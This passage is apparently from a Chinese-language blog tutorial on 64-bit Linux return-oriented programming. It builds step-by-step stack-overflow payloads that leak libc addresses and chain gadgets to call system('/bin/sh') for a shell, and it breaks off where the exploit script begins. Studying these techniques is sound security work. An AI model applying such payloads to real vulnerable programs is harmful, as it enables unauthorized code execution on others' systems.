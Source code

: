 从上图的`_dl_runtime_resolve_xsave`汇编代码中可以看到，从`0x00007ffff7ded2d9`开始，我们可以一次控制所有寄存器的参数，最后通过`jmp r11`进行函数调用，而`r11`可以在`0x00007ffff7ded2ca`由`rax`传入。

总体的思路还是通过调用`system`函数将`/bin/sh`的字符串的地址传入，这2个地址都通过在`libc.so`中的偏移来计算

    payload1 = "\x90"*136 + (return_addr=__libc_csu_init+5a=0x4005ea) + (rbx=0) + (rbp=1)
    payload1 += (r12=write_got) + (r13=1) + (r14=write_got) + (r15=8) + (0x4005d0)
    payload1 += "b"*56 + (return_addr=main)

测试功能正常：

![linux64rop]({{ '/images/201804/linux_64_rop_3_1.png' | prepend: site.baseurl }})

`payload1`我们就可以成功获取到`system`和`/bin/sh`的地址，以及`libc`的基地址,接下来我们需要调用`system`函数，首先通过`pop rax;ret`将system的地址传入到rax，之后再跳转到`0x00007ffff7ded2ca`将`rax`传入`r11`,所以我们还需要获取`_dl_runtime_resolve_xsave`的基地址，可以通过程序的`plt`表中的`_GLOBAL_OFFSET_TABLE_+0x10`获取

![linux64rop]({{ '/images/201804/linux_64_rop_3_2.png' | prepend: site.baseurl }})

构造payload2获取`_dl_runtime_resolve_xsave`的基地址.

    payload2 = "\x90"*136 + (return_addr=__libc_csu_init+5a=0x4005ea) + (rbx=0) + (rbp=1)
    payload2 += (r12=write_got) + (r13=1) + (r14=_dl_runtime_resolve_xsave=0x601010) + (r15=8) + (0x4005d0)
    payload2 += "b"*56 + (return_addr=main)
    
最后一步基于我们所有获取到的信息开始调用`system`获取`shell`

    payload3 = "\x90"*136 + (return_addr=pop_rax_ret_addr) + (system_addr) + (_dl_runtime_resolve_xsave+138) 
    payload3 += (rax=0) + (rcx=0) + (rdx=0) + (rsi=0) + (binsh_addr) + (r8) + r(r9)

这个就是payload3的基本布局.

一切都准备就绪，但是不知道什么原因在执行到`0x00007ffff7ded2d4 <+148>:	xrstor [rsp+0x40]`程序直接退出，而且正常应该是执行`_dl_runtime_resolve`, 但是我换了2个环境分别是`_dl_runtime_resolve_xsave`和`_dl_runtime_resolve_avx`。均无法正常执行payload， 如果是正常的`_dl_runtime_resolve`可定可以拿到shell的

所以我这里就另外构造了一个payload4来继续完成x64环境的利用，通过`ROPgadget`命令

	ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6  --only 'pop|ret'

意外发现了`pop rdi;ret`,这条指令是在`init_cacheinfo+239`。

![linux64rop]({{ '/images/201804/linux_64_rop_3_3.png' | prepend: site.baseurl }})

再配合着`_init`中的`call rax`和`pop rax;ret`，就可以成功调用`system`函数

![linux64rop]({{ '/images/201804/linux_64_rop_3_4.png' | prepend: site.baseurl }})

因此最终我们的payload4为：

    payload4 = "\x90"*136 + (return_addr=pop_rax_ret) + (system_addr)
    payload4 += (pop_rdi_ret) + (binsh_addr)
    payload4 += (call_rax)

最终整合所有的payload，利用脚本如下(payload3在脚本中没有使用)：

<pre>#!/usr/bin/python
